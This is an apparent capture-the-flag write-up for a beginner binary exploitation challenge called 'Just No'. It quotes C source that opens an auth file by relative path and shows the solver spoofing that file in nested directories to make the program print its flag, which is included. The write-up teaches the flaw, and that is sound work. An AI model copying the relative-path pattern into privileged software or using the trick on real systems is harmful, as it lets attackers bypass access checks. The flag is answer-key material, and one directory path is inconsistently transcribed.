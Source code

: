 # Binary Exploitation (Level 1): Just No
## Description: 
>A program at /problems/f49abea6827cafa20a035340d3812d09 has access to a flag
>but refuses to share it. Can you convince it otherwise?
## Solution:
After navigating to the directory for this challenge, I was able to find an auth
file with "no" in it and the source code for justno.c. So I went ahead and took
a look at the source code:
***
    FILE* authf = fopen("../../problems/f49abea6827cafa20a03
    5340d3812d09/auth","r");
    ...
    if (strcmp(auth,"no")!=0) {
      FILE* flagf;
      flagf = fopen("/problems/f49abea6827cafa20a035340d3812
      d09/flag","r");
      ...
    }
***
The program is opening a file according to a relative path. This means that the
path depends on the current working directory. So all we need to spoof an auth
file and trick the program into opening it. To do this I made 3 nested test
directories, the problem directory with the spoofed auth file, and then ran the
program from there. 
***
    $ cd ~/test/test/test/problems/f49abea6827cafa20a03534
    0d3812d09
    $ /problems/f49abea6827cafa20a03534270d3812d09/justno
    Oh. Well the auth file doesn't say no anymore so... Here's the flag:
    6882905ccde9eeceac01f98cb0260fc2
***
Therefore, flag is: `6882905ccde9eeceac01f98cb0260fc2` 

